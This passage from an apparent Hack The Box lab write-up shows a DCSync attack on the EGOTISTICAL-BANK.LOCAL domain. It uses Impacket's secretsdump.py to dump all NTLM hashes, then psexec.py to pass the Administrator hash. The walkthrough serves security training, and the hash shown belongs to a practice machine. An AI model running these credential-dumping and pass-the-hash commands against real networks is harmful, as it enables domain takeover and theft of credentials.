 The results indicate that the user svc_loanmgr has the ExtendedRight privilege, which we can abuse to perform a DCSync attack. This will trick the domain controller into thinking we are a new DC on the network and will sync with us, providing all the user NTLM hashes.

![](/assets/img/posts/htb/06-2020-2/powerview.png)

This can be accomplished using the `secretsdump.py` tool from Impacket. We'll exit our current remote session and run our command.

```bash
$ secretsdump.py -just-dc-ntlm EGOTISTICAL-BANK.LOCAL/svc_loanmgr@10.10.10.175
```

![](/assets/img/posts/htb/06-2020-2/secrets.png)

Success! We receive NTLM hashes for all the users, including the Administrator. Let's use psexec.py to perform a pass-the-hash attack, and connect to the box as the Administrator.

```bash
$ psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff administrator@10.10.10.175
```
